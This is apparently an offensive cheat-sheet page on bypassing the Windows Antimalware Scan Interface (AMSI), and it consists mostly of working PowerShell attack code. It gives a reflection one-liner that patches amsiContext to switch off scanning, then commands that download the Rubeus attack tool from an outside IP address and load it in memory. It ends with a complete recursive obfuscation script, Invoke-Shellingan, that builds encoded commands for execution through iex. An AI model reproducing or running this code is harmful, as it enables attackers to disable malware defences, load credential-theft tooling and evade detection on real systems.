 # Windows Antimalware Scan Interface ( AMSI ) Bypass


## reflexion

[source: Gustav Shen](https://gustavshen.medium.com/bypass-amsi-on-windows-11-75d231b2cac6)

1. Get the assembly that Ref is defined in, then get a list of all types defined in that assembly
2. In the list, locate AmsiUtils based on the property characteristics of AmsiUtils, such as IsPublic=False, IsSerial=False, and the Name contains the “iUtils” substring, etc.
3. Locate amsiContext in a similar manner
4. Get the address of the amsiContext parameter and patch the first DWORD in the structure to 0

```Powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like “*iUtils”) {$c=$b}};$d=$c.GetFields(‘NonPublic,Static’);Foreach($e in $d) {if ($e.Name -like “*Context”) {$f=$e}};$g=$f.GetValue($null);$ptr = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
```

## load c# tool

```Powershell
$data=(new-object System.Net.WebClient).DownloadData(‘http://192.168.0.45:443/rubeus.exe’)
$assembly=[System.Reflection.Assembly]::Load($data)
```


## script d'obfuscation (2018)

```powershell
function Invoke-Shellingan{
    <#
    .SYNOPSIS
        Simple Recursive Powershell Command Obfuscation

    .DESCRIPTION
        Simple Recursive Powershell Command Obfuscation

    .PARAMETER cmd
        command (mandatory)

    .PARAMETER iex
        add invoke-expression (usefull to execute your commands)

    .PARAMETER recurse
        number of obfuscation loop (increase output length!)

    .OUTPUTS
        Then you just have to copy-paste the output where you want execute it.

    .EXAMPLE
        Invoke-Shellingan -cmd 'write helloworld' -iex $true -recurse 1

    .NOTES
        TO DO: Pipe, sleep time

    #>
    param(
        [Parameter(Mandatory=$true, Position=0)]
        [ValidateNotNullOrEmpty()]
        [string] $cmd, 

        [Parameter(Mandatory=$false, Position=1)]
        [System.Boolean] $iex = $true,

        [Parameter(Mandatory=$false, Position=2)]
        [int] $recurse
    
    )begin{

        if(-not $rot){
            Write-Verbose "<cmd> : $cmd" 
            Write-Verbose "<iex> : $iex" 
            Write-Verbose "<rec> : $recurse"
        }

        function rul($in){
            Write-Verbose "<0> Randomnize Case..."
            $array = $in.Toupper(),$in.ToLower()
            for($i=0; $i -lt $in.length; $i++){
                $output += ($array[(get-random -min 0 -max 2)][$i]).ToString()
            }
            return $output
        }


    }Process{

        Write-Verbose "<0> Bytes Rotation..."
        [byte[]] $scriptBytes = [system.Text.Encoding]::UTF8.GetBytes((rul($cmd)))
        $rot = Get-Random -Maximum 254 -Minimum 5
        $derot = 255 - $rot
        $rotedbytes = [system.Text.Encoding]::UTF8.GetBytes('')
        $scriptBytes |%{ $rotedbytes += ($_ + $rot)%255}

        Write-Verbose "<0> Back to [string]..."
        $output = ""
        $rotedbytes |%{$output += $_.tostring() + ","}
        $output = $output -replace ".$"

        Write-Verbose "<0> Payload Generation..."
        $rand1 = Get-Random -Maximum 254 -Minimum 5 ; $rand2 = Get-Random -Maximum 254 -Minimum 5 ; $rand3 = Get-Random -Maximum 254 -Minimum 5
        $output =  "`$$rand2=255;`$$rand1=[sYsTeM.TeXT.eNcOdInG];`$$rand3=`$$rand1::utF8.gEtbYtES('');`$$rand1::utf8.gEtsTRiNG(`$(([bYtE]" + $output + ")|%{`$$rand3+=(`$_+(`$$rand2+$derot))%`$$rand2};`$$rand3))"
    
    }end{   

        if($iex){$output+= "|iex"}
        if($recurse -gt 1){Invoke-Shellingan $output $iex ($recurse-=1)  }
        else{
            return rul($output)
        }
    }
}
```